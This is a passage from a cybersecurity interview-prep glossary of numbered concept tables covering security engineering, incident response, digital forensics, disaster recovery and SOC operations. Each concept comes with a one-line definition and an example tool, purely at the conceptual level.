| 945. Secure SDLC | Applying security activities — threat modeling, code review, testing, and release gates — throughout the software lifecycle. | Threat model at design, SAST in CI, DAST in staging, pentest before launch |
| 946. Code Security | Practices that keep source code, dependencies, secrets, and build outputs free from exploitable weakness. | GitHub Advanced Security with SAST, secret scanning, and Dependabot |
| 947. API Security | Protecting APIs from unauthorised access, injection attacks, excessive data exposure, and abuse. | API gateway enforcing OAuth 2.0, rate limits, and schema validation |
| 948. Microservices Security | Securing inter-service communication and identity in distributed architectures where each service is independently deployed. | Mutual TLS between services plus service-mesh policy enforcement |
| 949. Container Security | Scanning container images for vulnerabilities, hardening runtime configurations, and monitoring running containers. | Trivy image scanning in CI; Falco detecting suspicious syscalls at runtime |
| 950. Kubernetes Security | Applying admission control, network policies, RBAC, and runtime monitoring across Kubernetes clusters. | OPA Gatekeeper blocking privileged pods; network policies isolating namespaces |

#### 🎓 Emerging Concepts & Security Careers (951–1000)

| Point & Concept | Interview Answer | Example / Tool |
|-----------------|------------------|----------------|
| 951. Cloud-Native Security | Security design built for ephemeral, API-driven cloud environments rather than adapted from on-prem models. | AWS Security Hub, Azure Defender for Cloud, GCP Security Command Centre |
| 952. Identity-Centric Security | Treating verified identity as the primary security boundary in modern environments where perimeter controls are insufficient. | Okta or Microsoft Entra ID as the control plane for all access decisions |
| 953. Passwordless Authentication | Replacing reusable passwords with phishing-resistant methods like passkeys, hardware tokens, or biometrics. | FIDO2 passkeys; YubiKey WebAuthn; Windows Hello for Business |
| 954. Biometric Security | Using unique physical characteristics — fingerprints, face, voice — to authenticate identity. | Windows Hello facial recognition; Apple Face ID; mobile fingerprint sensors |
| 955. Behavioral Analytics | Establishing a baseline of normal user and entity activity then flagging statistically unusual deviations. | UEBA tool detects impossible-travel or after-hours bulk file access |
| 956. UEBA | User and Entity Behavior Analytics — systems that baseline activity and score risk when behavior deviates from normal. | Splunk UBA or Microsoft Sentinel analytics raising alerts on outlier sessions |
| 957. XDR | Extended Detection and Response that correlates signals across endpoint, identity, email, and cloud into one detection view. | Microsoft Defender XDR correlating endpoint, email, and identity signals |
| 958. Data-Centric Security | Protecting data itself — through classification, encryption, and access controls — regardless of where it is stored or moves. | Azure Purview labels data; Microsoft Information Protection encrypts by sensitivity |
| 959. Privacy by Design | Building data-minimisation, consent, and privacy controls into systems during design rather than retrofitting them after. | Only collect required fields; implement DSAR workflows; enforce retention limits |
| 960. Data Governance | The policies, ownership structure, and processes that define how data is classified, retained, accessed, and protected. | Data stewards enforce classification policy; retention automation deletes expired data |
| 961. Encryption Everywhere | Applying encryption consistently across data at rest, in transit, and in use to eliminate unprotected data paths. | AES-256 at rest, TLS 1.3 in transit, AWS KMS for key management |
| 962. Secure Communication | Ensuring all message channels use authenticated encryption and trusted protocols to prevent interception or tampering. | TLS 1.3 for HTTPS; SMTPS/STARTTLS for email relays; Signal protocol for messaging |
| 963. Digital Identity | A verifiable electronic representation of a person, service, or device used to authenticate and authorise access. | OIDC identity token from Entra ID; service account with a JWT assertion |
| 964. Identity Lifecycle | The end-to-end process of provisioning, maintaining, reviewing, and deprovisioning digital identities. | HR triggers Entra ID provisioning → role review quarterly → instant offboarding |
| 965. Access Lifecycle | The process of granting, adjusting, reviewing, and revoking access rights over time as roles and needs change. | Access review campaign removes stale permissions every 90 days |
| 966. PAM | Privileged Access Management — controlling, vaulting, and monitoring high-risk administrative access to reduce blast radius. | CyberArk or Delinea vaulting credentials; session recording for admin activity |
| 967. Identity Federation | A trust relationship that allows one identity provider to authenticate users into another organization's system. | SAML 2.0 trust between corporate Entra ID and a partner's Salesforce org |
| 968. SSO | Single Sign-On — one authentication session grants access to multiple connected applications without re-entering credentials. | Log in once via Okta to access Slack, GitHub, and AWS console |
| 969. Multi-Cloud Security | Securing workloads and identities consistently across two or more public cloud providers. | Unified CSPM scanning AWS, Azure, and GCP from one console |
| 970. Hybrid Cloud Security | Protecting environments that mix on-premises infrastructure with public cloud services. | On-prem AD synced to Entra ID; Defender for Servers covering both |
| 971. EDR | Endpoint Detection and Response — continuous monitoring of device behavior with detection, investigation, and containment capability. | CrowdStrike Falcon, SentinelOne, Microsoft Defender for Endpoint |
| 972. MDR | Managed Detection and Response — a third-party service that monitors, investigates, and helps contain threats on the customer's behalf. | Arctic Wolf or CrowdStrike MDR providing 24/7 threat monitoring |
| 973. SASE | Secure Access Service Edge — combining network security and WAN capability into a cloud-delivered service. | Zscaler Internet Access replacing on-prem web proxies |
| 974. Threat Intel Lifecycle | The process of collecting, processing, analysing, disseminating, and reviewing threat intelligence continuously. | Planning → collection → processing → analysis → dissemination → feedback |
| 975. Cybersecurity Framework | A structured set of guidelines and controls used to build and measure a security program. | NIST CSF, ISO 27001, CIS Controls |
| 976. ISO 27001 | International standard specifying requirements for an Information Security Management System and its continuous improvement. | Certification audit validating controls across people, process, and technology |
| 977. NIST CSF | Voluntary framework organizing security work around five functions: Identify, Protect, Detect, Respond, and Recover. | CSF profile used to benchmark current state and set target maturity |
| 978. Compliance Audit | Independent evidence-based review confirming that required controls exist and are operating effectively. | PCI QSA reviewing evidence across all 12 PCI DSS requirements |
| 979. Risk Methodology | A defined process for identifying, rating, prioritizing, and treating security risks consistently across the organization. | FAIR model quantifying financial impact; NIST RMF for federal systems |
| 980. Security Governance | The oversight structure that assigns accountability, sets direction, and ensures security aligns with business objectives. | CISO reports to board; policy owners assigned; steering committee reviews quarterly |
| 981. Security Leadership | Setting strategy, priorities, budgets, and executive communication so the security program aligns with business risk. | CISO presenting risk posture and investment roadmap to the board |
| 982. Security Awareness | Training users to recognize and report phishing, social engineering, and risky requests before acting on them. | KnowBe4 phishing simulations; mandatory annual awareness training |
| 983. Security Culture | Shared norms and behaviors that make secure decisions habitual rather than an occasional compliance exercise. | Employees report suspicious emails within minutes; engineers raise security issues in code review |
| 984. Human Factor | The influence of human behavior, psychology, stress, and mistakes on security outcomes. | User approves an MFA push after an attacker applies social-engineering pressure |
| 985. Social Engineering Defense | Combination of awareness training, process controls, and verification steps that reduce social-engineering success rates. | Callback verification policy; phishing drill results driving targeted retraining |
| 986. Phishing Simulation | Controlled test that sends realistic-looking phishing messages to employees to measure and improve detection rates. | KnowBe4 campaign; click data drives targeted coaching for at-risk users |
| 987. Continuous Monitoring | Ongoing collection, review, and alerting on security telemetry to detect misuse, drift, or control failure in near real time. | Splunk dashboards tracking login anomalies, file access, and patching gaps |
| 988. Continuous Improvement | Systematic cycle of using incident findings, audit outputs, and metrics to strengthen security controls over time. | Post-incident review feeds remediation backlog; SIEM rules tuned quarterly |
| 989. Security Innovation | Adopting or developing new methods that measurably improve prevention, detection, response, or usability. | Piloting AI-assisted detection engineering; deploying passwordless auth |
| 990. Future of Cybersecurity | The evolving direction of the field, shaped by AI, identity-centric models, cloud, and quantum computing threats. | Zero Trust as the baseline; AI-augmented SOC; post-quantum migration planning |
| 991. Cybersecurity Careers | The broad range of roles spanning offensive, defensive, cloud, governance, and leadership security work. | SOC analyst, pentester, cloud security engineer, GRC specialist, CISO |
| 992. Ethical Hacking | Authorised offensive testing performed by a skilled practitioner to discover and safely report security weaknesses. | Penetration tester scoping a black-box web application assessment |
| 993. Security Analyst | Practitioner who monitors alerts, investigates suspicious events, and coordinates containment when incidents occur. | SOC L2 analyst pivoting from a SIEM alert to EDR telemetry and threat intel |
| 994. SOC Analyst Tiers | L1 triage, L2 investigation, L3 escalation and advanced hunting — a tiered model for efficient alert handling. | L1 closes false positive; L2 confirms compromise; L3 hunts related infrastructure |
| 995. Penetration Tester | Offensive security specialist who safely exploits weaknesses within a defined scope to prove business impact. | Web pentest using Burp Suite, manual testing, and authenticated fuzzing |
| 996. Security Engineer | Practitioner who designs, builds, and maintains security controls, integrations, and secure-by-default platforms. | Building SSO federation, SIEM pipelines, and EDR deployment at scale |
| 997. Incident Responder | Security role specialising in triage, containment, evidence collection, eradication, and recovery during active incidents. | IR coordinator isolating hosts, resetting credentials, and preserving forensic images |
| 998. Digital Forensics Expert | Specialist who collects, preserves, and analyses digital evidence in ways that maintain integrity for potential legal use. | Volatility memory analysis; Autopsy disk forensics; chain of custody documentation |
| 999. CISO | Chief Information Security Officer — the senior executive responsible for enterprise security strategy, governance, and risk communication. | CISO presenting board-level risk posture, program investment, and ransomware readiness |
| 1000. Cybersecurity Professional | Anyone working in technical, governance, or leadership security roles — a broad term covering the full spectrum of the field. | Analyst, engineer, auditor, responder, compliance lead, or security architect |

### Incident & DR Operations (1001–1100)

!!! note "Format: Point & Concept → Interview Answer → Example / Tool"
    Each row gives you a clean definition you can say in an interview, plus a real-world example or tool.

---

#### 🚨 Incident Response Core Phases (1001–1040)

| Point & Concept | Interview Answer | Example / Tool |
|-----------------|-----------------|----------------|
| 1001. Incident Response (IR) | The structured approach to addressing and managing the aftermath of a security breach or attack. | Activating the ransomware playbook |
| 1002. Preparation (IR Phase) | The most critical phase: establishing policies, building playbooks, ensuring proper logging is turned on, and training the team before an attack happens. | Holding a tabletop exercise on zero-day exploitation |
| 1003. Identification (IR Phase) | Detecting a potential security incident, determining if it is a true positive, and defining the scope of the compromise. | SIEM alerts on a suspicious PowerShell command; SOC verifies it is malicious |
| 1004. Containment (IR Phase) | The immediate, short-term actions taken to stop the bleeding and prevent the threat from spreading further into the network. | Isolating an infected laptop via EDR while keeping it powered on for forensics |
| 1005. Eradication (IR Phase) | Finding the root cause of the incident and permanently removing the threat, malware, or attacker persistence mechanisms from the environment. | Forced password resets, deleting malicious scheduled tasks, and patching the initial vulnerability |
| 1006. Recovery (IR Phase) | Carefully and systematically restoring affected systems and data to full production capability while monitoring for reinfection. | Restoring a clean database snapshot and verifying no new anomalous connections occur |
| 1007. Lessons Learned (IR Phase) | The post-incident review (post-mortem) where the team discusses what went wrong and updates playbooks, policies, or tools to guarantee it won't happen again. | Updating IPS rules because the initial payload bypassed the firewall undetected |
| 1008. CSIRT (Computer Security Incident Response Team) | A dedicated, cross-functional team (Security, Legal, PR, IT) activated during a major incident to coordinate the response. | The CSIRT convenes physically in a war room during a major data breach |
| 1009. Tabletop Exercise | A discussion-based simulation where executives, IT, and security roleplay an incident to find gaps in the IR plan. | Spending 4 hours walking through a simulated supply-chain attack scenario |
| 1010. Playbook / Runbook | A documented, step-by-step procedure detailing exactly how to respond to a specific type of incident (e.g., Malware, Phishing, Insider Threat). | Splunk SOAR playbook automatically executing the 'Phishing Response' steps |
| 1011. Incident Severity (P1-P4) | Categorising an incident based on business impact, data sensitivity, and urgency to dictate the required response SLAs. | P1 (Critical): Active ransomware. P3 (Medium): Malware caught and blocked by AV |
| 1012. True Positive | A security alert that correctly fired on actual malicious activity. | A WAF alerting on and blocking a valid SQL injection attempt |
| 1013. False Positive | A security alert that fired on benign or normal administrative activity, creating noise for the SOC. | An alert for "Impossible Travel" firing because a user logged into a VPN |
| 1014. True Negative | Normal, legitimate traffic that passes through security controls without triggering an alert. | Standard HTTP web browsing happening silently in the background |
| 1015. False Negative | A critical failure where malicious activity occurred but security controls completely failed to detect or block it. | A new zero-day malware executing without triggering EDR or SIEM alerts |
| 1016. Triage | The initial assessment of incoming alerts to filter out noise, prioritise critical threats, and assign them for deep investigation. | An L1 SOC analyst closing 5 false positives and escalating 1 true positive to L2 |
| 1017. Root Cause Analysis (RCA) | The process of tracing an incident back to the exact vulnerability or failure that allowed the attacker in. | Determining that an employee clicked a phishing link, bypassing the lack of MFA |
| 1018. Indicator of Compromise (IOC) | Reactive evidence that an attack has already occurred, such as a known bad IP, fixed file hash, or specific malicious URL. | Finding the MD5 hash of WannaCry on a file server |
| 1019. Indicator of Attack (IOA) | Proactive evidence of the *intent* or *behaviour* of an attack in progress, focusing on how it works regardless of the specific malware used. | Alerting on any process attempting to dump LSASS memory |
| 1020. Threat Intelligence Platform (TIP) | A system that aggregates, scores, and integrates threat feeds (IOCs) into security controls like firewalls or SIEMs. | MISP or ThreatConnect automatically pushing malicious IPs to the Palo Alto blocklist |
| 1021. Kill Chain: Reconnaissance | The attacker gathering information about the target from public sources (OSINT) or active scanning. | Harvesting employee email addresses from LinkedIn |
| 1022. Kill Chain: Weaponisation | The attacker creating a malicious payload tailored specifically to the target's environment. | Embedding a malicious macro into a seemingly legitimate PDF invoice |
| 1023. Kill Chain: Delivery | The transmission of the weaponised payload to the target environment. | Sending the malicious PDF via a spear-phishing email |
| 1024. Kill Chain: Exploitation | The malicious code triggering and executing on the victim's system, taking advantage of a vulnerability. | The macro exploiting a flaw in Word to execute shellcode |
| 1025. Kill Chain: Installation | The attacker establishing persistence on the system so they survive reboots. | The malware creating a hidden Scheduled Task to run every startup |
| 1026. Kill Chain: Command & Control (C2) | The compromised system phoning home to the attacker's server to receive instructions or download secondary payloads. | The infected endpoint communicating over DNS tunnels to an external IP |
| 1027. Kill Chain: Actions on Objectives | The final stage where the attacker achieves their goal: data theft, ransomware encryption, or system destruction. | Encrypting the SQL database and dropping a ransom note |
| 1028. Lateral Movement | Moving from the initially compromised host to other, higher-value systems within the corporate network to find sensitive data. | Using stolen credentials to RDP from a workstation to the Domain Controller |
| 1029. Privilege Escalation | An attacker exploiting a bug or misconfiguration to gain higher-level administrative access than they originally had. | A standard user exploiting a local kernel flaw to become `NT AUTHORITY\SYSTEM` |
| 1030. Exfiltration | The unauthorised transfer of sensitive data out of the corporate network to attacker-controlled storage. | Copying 10GB of customer data to an external Mega.nz file-sharing account |
| 1031. Log Aggregation | Collecting log files from firewalls, endpoints, servers, and applications into one central, searchable repository. | Forwarding all Windows Event logs and Syslog to an ELK cluster |
| 1032. Time Synchronisation (NTP) | Ensuring all devices on a network use the exact same time source so logs can be correlated accurately during an investigation. | A firewall log showing 14:01 aligning perfectly with a server log at 14:01 |
| 1033. Chain of Custody | The chronological, strictly documented paper trail detailing the collection, control, transfer, and analysis of digital evidence. | Signing over a physical hard drive to law enforcement with timestamps and signatures |
| 1034. Legal Hold | A legal directive to preserve all data, emails, and logs relevant to an impending lawsuit or criminal investigation, overriding normal deletion policies. | Suspending the automatic 30-day email deletion policy for a user under investigation |
| 1035. E-Discovery | The process of identifying, collecting, and producing electronically stored information (ESI) in response to a legal request. | IT searching across Office 365 for all emails containing the keyword 'Project X' |
| 1036. Out-of-Band Communication | Using a completely separate, secure communication channel during an incident, assuming the primary network (like Slack or internal email) is compromised. | Using Signal on personal phones to discuss containment of an active APT intruder |
| 1037. Incident Declaration | The formal moment when management agrees a security event constitutes an 'incident', triggering legal, PR, and SLA clocks. | The CISO declaring a P1 incident, notifying the board and legal counsel |
| 1038. Containment Strategy: Isolation | Disconnecting a system from the network physically or logically to stop the spread, without turning it off. | The EDR disabling all network adapters on a laptop except the connection back to the EDR console |
| 1039. Containment Strategy: Segmentation | Putting affected systems into an isolated VLAN (quarantine network) where they can be analysed but cannot reach production. | Moving a compromised web server into a heavily monitored honeypot VLAN |
| 1040. Evidence Preservation Rule | Never perform forensic analysis on the original evidence. Always take a verifiable copy (image) and analyse the copy. | Creating a bit-by-bit physical clone of a suspect's hard drive before searching it |

#### 🔎 Digital Forensics & Analysis (1041–1100)

| Point & Concept | Interview Answer | Example / Tool |
|-----------------|-----------------|----------------|
| 1041. Digital Forensics | The scientific process of preserving, identifying, extracting, and documenting digital evidence for use in court or IR root-cause analysis. | Using EnCase to pull deleted files from an embezzler's laptop |
| 1042. Order of Volatility | The standard sequence in which evidence must be collected, starting with the data that is most likely to be lost when power is removed. | Collecting RAM first, network state second, and physical hard drives last |
| 1043. Volatile Evidence | Data that is completely erased the moment a computer is powered down or restarted. | Running processes, active network connections, and the contents of RAM |
| 1044. Non-Volatile Evidence | Data that persists and remains stored even when the device is powered off. | The master boot record, the Windows Registry, and files on the hard drive |
| 1045. Memory Forensics (RAM) | Analysing a dump of a system's physical memory to find fileless malware, decrypted passwords in memory, and active C2 connections. | Using the `Volatility` framework to extract a malicious hidden process |
| 1046. Disk Imaging | Creating a bit-for-bit, exact clone of a physical storage drive, including unallocated space and deleted files, for safe analysis. | Using FTK Imager to clone a 500GB SSD to an external evidence drive |
| 1047. Write Blocker | A hardware device or software tool that intercepts and prevents any commands from modifying data on a hard drive being imaged. | Connecting a suspect's drive through a Forensic Bridge ensuring zero bytes are altered during the copy |
| 1048. File Hashing in Forensics | Generating an MD5 or SHA-256 hash of the original drive and the forensic image to prove mathematically that the copy is absolutely identical and untampered. | Comparing the source SHA-384 hash with the destination image hash in court |
| 1049. Slack Space | The empty, unused space between the end of a physical file and the end of the cluster it occupies on the disk; a common place to hide malware. | Data hidden in the 200 bytes of empty space at the end of a 4KB disk cluster |
| 1050. Unallocated Space | Portions of the hard drive that the OS currently views as empty and available for new data, often containing remnants of deleted files. | Running a file-carving tool over unallocated space to recover deleted Word docs |
| 1051. File Carving | The process of recovering deleted files from unallocated disk space by searching for identifying headers (magic numbers) and footers, ignoring the file system structure entirely. | Using `Scalpel` or `PhotoRec` to recover deleted JPEGs by searching for the `FFD8` hex header |
| 1052. Network Forensics | Capturing, storing, and analysing live network traffic (often via PCAP) to determine the source of an attack or prove data exfiltration. | Using `Wireshark` to replay a recorded packet capture showing an FTP data exfiltration session |
| 1053. Timeline Analysis | Creating a chronological sequence of events by merging file timestamps, registry changes, and application logs to tell the story of the attack. | Proving the attacker dropped a payload at 14:02, ran it at 14:05, and created a new admin user at 14:10 |
| 1054. MAC Times | Timestamps tracked by the file system: Modified (when content changed), Accessed (when last opened), and Created (when the file was born). | An attacker altering MAC times to make a new malware file look like an old, legitimate Windows DLL (Timestomping) |
| 1055. Windows Registry Forensics | Analysing the central Windows configuration database to find evidence of execution, USB device insertions, or persistence mechanisms (Run keys). | Checking `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` for malware set to start on boot |
| 1056. Prefetch Analysis | A Windows feature designed to speed up application load times; forensically, it proves that a specific executable actually ran on the system. | Proving the suspect executed `ccleaner.exe` on Tuesday at 9 AM to cover their tracks |
| 1057. AmCache / ShimCache | Windows compatibility databases that store metadata about applications; forensically used to prove an application was run, even if it is now deleted. | Finding evidence of `mimikatz.exe` having run despite the attacker deleting the file |
| 1058. Windows Event Logs (.evtx) | The primary source of truth for Windows activity; Security, System, and Application logs critical for tracking logins and changes. | Searching Event ID 4624 (Successful Logon) to track lateral movement |
| 1059. Sysmon (System Monitor) | A free Microsoft Sysinternals tool that drastically improves Windows logging, recording granular details like process creation, network connections, and file hashing. | Sysmon Event ID 1 (Process Creation) showing the exact command line used to launch a malicious script |
| 1060. Malware Analysis | The process of studying a malicious binary or script to understand its capabilities, origin, and impact without triggering a real attack. | Analysing a Ransomware payload to determine if its encryption flaw allows data recovery without paying |
| 1061. Static Malware Analysis | Examining the code, strings, headers, and structure of a malicious file *without* actually executing it. | Using `strings` or `Ghidra` to read hardcoded IP addresses directly from a malware binary |
| 1062. Dynamic Malware Analysis | Executing malware in a heavily monitored, isolated environment to observe its true behaviour, network calls, and file system changes. | Running the malware in a Cuckoo Sandbox and observing it violently encrypting test files |
| 1063. Obfuscation / Packing | Techniques used by malware developers to compress or scramble the code to hide its true intent from static analysis and antivirus engines. | A packed executable where the true malicious payload is only decrypted in memory at runtime |
| 1064. Reverse Engineering | The highly skilled process of entirely deconstructing a compiled program back into assembly or source code to understand its core architecture. | Using IDA Pro or Ghidra to find a hardcoded decryption key buried deep in a banking trojan |
| 1065. C2 / Command and Control | The server or infrastructure an attacker uses to maintain communication with malware inside a compromised network. | A compromised server beaconing to a Russian IP address over HTTPS every 5 minutes |
| 1066. Beaconing | The regular, rhythmic 'pulse' of communication sent from a compromised host to its C2 server to see if there are any new instructions. | A 1KB packet sent exactly every 60 seconds (with 10% jitter) to external infrastructure |
| 1067. DGA (Domain Generation Algorithm) | Malware mathematically generating hundreds of random domain names a day, forcing the C2 communication to constantly shift, making blocking difficult. | Malware trying to contact `xqyzwlpb.com`, failing, then trying `ajfbbmz.info` to find its master server |
| 1068. DNS Sinkhole | A defensive mechanism that intercepts requests for known malicious domains (like C2s) and routes them to a safe, controlled internal IP address. | A compromised machine attempts to reach `evil.com`, but the internal DNS redirects it to an internal SOC server, logging the attempt and failing the connection |
| 1069. YARA Rules | A powerful tool used to identify and classify malware based on textual or binary patterns (essentially "grep for malware"). | Creating a YARA rule that triggers anytime the specific string `#MalwareV2` is found in a file across the enterprise |
| 1070. Sigma Rules | A generic, vendor-agnostic signature format for SIEM systems; allows defenders to share detection logic regardless of whether they use Splunk, Elastic, or Sentinel. | A Sigma rule searching for "whoami" commands shared by the community and imported directly into Splunk |
| 1071. SIEM (Security Information and Event Management) | A platform that centralizes logs from across the enterprise, analyses them in real-time, correlates events, and generates alerts for the SOC. | Splunk Enterprise Security |
| 1072. SOAR (Security Orchestration, Automation, and Response) | A platform that takes alerts from the SIEM and executes automated playbooks to triage or contain the threat, drastically reducing manual analyst work. | Cortex XSOAR |
| 1073. EDR (Endpoint Detection and Response) | Advanced agent-based software on workstations and servers that records detailed activity (processes, network, registry) and can isolate the host. | CrowdStrike Falcon / SentinelOne |
| 1074. XDR (Extended Detection and Response) | The evolution of EDR, pulling telemetry not just from endpoints, but from identity, email, cloud, and network sources to create unified incidents. | Microsoft 365 Defender correlating an email click with an endpoint process |
| 1075. NDR (Network Detection and Response) | Passive network sensors that analyse east-west network traffic to spot anomalies, lateral movement, or exfiltration using machine learning. | Vectra AI or ExtraHop |
| 1076. OSINT (Open-Source Intelligence) | The collection and analysis of publicly available information to profile targets, find vulnerabilities, or attribute attacks. | Using Shodan to find publicly exposed unpatched RDP servers belonging to a target company |
| 1077. Honeypot | A decoy system deliberately made to look attractive to attackers; since no real user should touch it, any interaction is a high-fidelity alert. | A fake server named `FINANCE-DB-01` that immediately pages the SOC if anyone tries to log in |
| 1078. Active Defense | Cyber strategies where an organisation actively disrupts or frustrates an attacker, going beyond just blocking traffic (though short of illegal hacking back). | Deploying honeytokens, fake credentials, or slowing down enemy connections infinitely (Tarpitting) |
| 1079. Honeytoken / Canary Token | A fake credential, file, or API key left on a system. If an attacker steals and attempts to use it, a silent alarm is immediately triggered. | A fake AWS access key left in a developer's `.bash_history` file |
| 1080. Data Loss Prevention (DLP) | Software designed to detect potential data breaches/exfiltration transmissions and prevent them by monitoring endpoint activity and network egress. | Blocking an employee from uploading a spreadsheet containing 500 credit card numbers to a personal Gmail account |
| 1081. UEBA (User and Entity Behavior Analytics) | Using machine learning to baseline normal behaviour for users and machines, alerting loudly when they drastically deviate. | Alerting when an HR employee, who normally downloads 5MB a day, suddenly downloads 4GB of source code at 2 AM |
| 1082. Post-Mortem | A crucial, honest, and preferably 'blameless' review held after an incident to determine root causes and engineer permanent solutions. | Realising that a lack of MFA on the legacy VPN caused the breach, so the team retires the legacy VPN completely |
| 1083. Cyber Kill Chain Framework | A model showing the phases of a cyberattack, originally developed by Lockheed Martin, used to understand where defenses broke down. | Recon, Weaponise, Deliver, Exploit, Install, C2, Actions on Objectives |
| 1084. MITRE ATT&CK Framework | A comprehensive, globally accessible knowledge base of adversary tactics, techniques, and procedures based on real-world observations. | The industry standard for mapping what an attacker did, like T1003 (OS Credential Dumping) |
| 1085. Business Continuity Plan (BCP) | The broader, overarching plan designed to keep an organisation operating during and immediately after a disaster. | Rerouting customer service calls to a secondary call centre when the primary building loses power |
| 1086. Disaster Recovery Plan (DRP) | The technical subset of the BCP, focused strictly on recovering the IT infrastructure, databases, and digital operations. | Failing over the core banking application to an AWS backup region after the primary data centre floods |
| 1087. Cold Site (DR) | An empty facility with power and cooling, but no hardware or data. It takes weeks to set up during a disaster, but is very cheap. | Good for non-essential physical business operations |
| 1088. Warm Site (DR) | A facility with hardware currently present and connected, but data is out of date and must be restored from backups. Takes days to bring online. | A secondary office that can be spun up over a weekend |
| 1089. Hot Site (DR) | A fully duplicated, active facility with near real-time data replication. Capable of taking over production in minutes or hours. | Essential for massive e-commerce sites or banks |
| 1090. RTO (Recovery Time Objective) | The maximum acceptable amount of time that an IT service or application can be offline. Indicates how fast you must recover. | A critical database must be restored within 4 hours |
| 1091. RPO (Recovery Point Objective) | The maximum acceptable amount of data loss, measured in time. Dictates how frequently backups must occur. | If the RPO is 15 minutes, snapshots MUST happen every 15 minutes |
| 1092. Full Backup | A complete copy of all selected data. Time-consuming to create, but the fastest and easiest to restore from. | Usually run over the weekend when bandwidth is available |
| 1093. Incremental Backup | Copies only the data that has changed since the *last* backup of any kind. Very fast to create, but slow to restore (requires full + all incrementals). | Fast daily backups over weak network links |
| 1094. Differential Backup | Copies all data that has changed since the last *Full* backup. A middle ground: faster to restore than incrementals, faster to create than a full. | Requires the Full backup and only the single most recent Differential to restore |
| 1095. 3-2-1 Backup Rule | The standard best practice: Keep 3 total copies of your data, on 2 different physical media, with 1 copy placed offsite or offline. | To ensure protection against physical disasters and ransomware |
| 1096. Immutable Storage | Backup storage configured so that data cannot be modified, deleted, or encrypted for a specified retention period, even by the system administrator. | The ultimate defence against modern ransomware that seeks out and destroys normal backups |
| 1097. High Availability (HA) | Designing IT architecture with extreme redundancy to eliminate single points of failure, ensuring constant uptime (e.g., "Five Nines" / 99.999%). | Using dual load balancers across three separate power grids |
| 1098. Fault Tolerance | A system's capacity to continue operating without any interruption when one or more of its components fail. | A RAID 1 mirrored hard drive array surviving a physical disk crash without dropping a single packet |
| 1099. Failover | The automatic or manual seamless switching to a redundant or standby system upon the failure of the primary system. | The primary database crashes, and connections instantly route to the secondary node |
| 1100. Post-Incident Reporting | The formal document provided to stakeholders detailing the timeline, impact, and remediation steps taken during the incident. | Delivered to regulators or cyber-insurance providers within specific time limits |

### Expert Edge (1101–1200)

!!! note "Format: Point & Concept → Interview Answer → Example / Tool"
    Each row gives you a clean definition you can say in an interview, plus a real-world example or tool.

---

#### 🏗️ Architecture, Engineering & Operations (1101–1150)

| Point & Concept | Interview Answer | Example / Tool |
|-----------------|-----------------|----------------|
| 1101. Security Architecture | The high-level design that defines how security controls, trust boundaries, and data flows fit together across the enterprise. | Creating an active-active DMZ architecture separating web servers from the internal network |
| 1102. Zero Trust Architecture (ZTA) | A security model that eliminates the concept of 'trusted networks'; every user and device must be dynamically authenticated and authorised before access is granted. | Google's BeyondCorp or Cloudflare Access replacing traditional VPNs |
| 1103. Security Engineering | The hands-on technical work to build, test, and implement the systems designed by the security architecture. | Automating the deployment of an AWS KMS using Terraform |
| 1104. Threat Modelling (STRIDE) | A systematic process used during system design to identify potential threats, categorised by Spoofing, Tampering, Repudiation, Info Disclosure, Denial of Service, and Elevation of privilege. | Identifying that an API lacks rate limiting (DoS threat) before code is written |
| 1105. Attack Surface Reduction | The practice of actively removing unnecessary ports, services, protocols, and unused code to give attackers fewer ways in. | Disabling unused RDP and SMB protocols on all non-admin workstations |
| 1106. Principle of Least Privilege (PoLP) | Ensuring that identities (users or services) are granted only the minimum permissions required to perform their discrete function. | Giving a web app service account 'Read-Only' access to one specific database |
| 1107. Micro-segmentation | Isolating workloads and applications from each other down to the individual host or container level to prevent lateral movement. | VMware NSX preventing a compromised HR server from talking to the Finance server |
| 1108. Defence in Depth | Implementing multiple, overlapping layers of security controls so that if one layer fails, another stops the attack. | Phishing filters + MFA + EDR + SIEM monitoring + Offline Backups |
| 1109. SOC (Security Operations Centre) | A dedicated function and team focused on continuous monitoring, detection, and response to security incidents 24/7. | A team of L1, L2, and L3 analysts operating out of Splunk and EDR |
| 1110. MSSP (Managed Security Service Provider) | A third-party company that provides outsourced monitoring and management of security devices and systems. | Hiring Secureworks to run 24/7 SIEM monitoring because you lack an internal team |
| 1111. MDR (Managed Detection and Response) | An outsourced service specifically focused on proactive threat hunting, deep investigation, and active containment using EDR/XDR technologies. | CrowdStrike Falcon Complete actively stopping a ransomware attack for a client |
| 1112. XDR (Extended Detection & Response) | A platform that correlates alerts and telemetry from endpoints, network, cloud, and email into unified incidents, breaking operational silos. | Palo Alto Cortex linking an email click to an endpoint PowerShell execution |
| 1113. SOAR (Security Orchestration, Automation & Response) | Platforms that execute automated playbooks to enrich alerts, make decisions, and triage incidents much faster than a human could. | Cortex XSOAR automatically looking up an IP on VirusTotal and closing the Jira ticket if benign |
| 1114. SIEM Tuning | The ongoing process of adjusting correlation rules to suppress false positives and increase the fidelity of alerts for the SOC. | Exempting an approved vulnerability scanner's IP from triggering 'Port Scan' alerts |
| 1115. Alert Fatigue | A dangerous state where SOC analysts receive too many low-fidelity alerts, causing them to ignore or miss actual threats. | A SOC receiving 10,000 baseline "successful login" alerts a day, causing them to miss a brute-force |
| 1116. Threat Hunting | A proactive, hypothesis-driven approach where analysts search through raw data for malicious activity that evaded automated alerts. | Assuming attackers bypassed the firewall and querying EDR for unusual WMI execution |
| 1117. Purple Teaming | A collaborative exercise where the Red Team attacks and the Blue Team defends simultaneously to test and tune detections in real time. | Red team drops a payload; Blue team confirms the SIEM fired; they tune the rule together |
| 1118. CTI (Cyber Threat Intelligence) | Curated, actionable information regarding attacker motives, infrastructure, and TTPs used to prepare for and detect attacks. | Subscribing to Mandiant Intel to learn how the APT29 group specifically targets cloud tokens |
| 1119. TTPs (Tactics, Techniques, Procedures) | The highest level of threat intelligence, describing the overall goals and specific methods an adversary uses, rather than just their IP or hash. | Using Mimikatz to dump credentials (Technique) to achieve Privilege Escalation (Tactic) |
| 1120. MITRE ATT&CK Framework | The industry-standard knowledge base of adversary behaviour, mapping exactly how attackers operate across the kill chain. | Mapping a SIEM alert to ATT&CK Technique T1059.001 (Command and Scripting Interpreter: PowerShell) |
| 1121. Cyber Kill Chain | Lockheed Martin's 7-step model conceptualising how an attack progresses from Reconnaissance to Actions on Objectives. | Breaking the chain at the 'Delivery' phase by filtering a malicious email |
| 1122. Mean Time to Detect (MTTD) | A KPI measuring how long it takes an organisation to discover a security breach after it has occurred. | Reducing MTTD from 30 days to 2 hours by deploying EDR |
